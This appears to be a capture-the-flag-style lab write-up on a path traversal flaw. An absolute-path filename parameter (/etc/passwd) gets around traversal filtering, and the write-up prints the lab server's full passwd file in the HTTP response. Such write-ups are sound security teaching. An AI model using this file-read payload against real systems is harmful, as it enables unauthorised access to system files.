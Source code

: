 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/235500478-8c0ca37e-55fe-4dce-9457-c6b0832026d8.png)


## Solution :

The captured request looks like this ,

![image](https://user-images.githubusercontent.com/67383098/235500768-0fb533b9-5e77-4b86-b096-c1e69627a82e.png)

In this lab, the application blocks traversal sequences but treats the supplied filename as being relative to a default working directory, so we 'll use an **absolute path from the filesystem root, such as filename=`/etc/passwd`**, to directly reference a file without using any traversal sequences. 

We get the /etc/passwd file from the response.

```
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
avahi:x:110:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:111:118:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:112:119::/var/lib/geoclue:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:115:123:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:116:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

![image](https://user-images.githubusercontent.com/67383098/235501851-63acd838-fd93-4609-a1c5-7b44c146afe6.png)
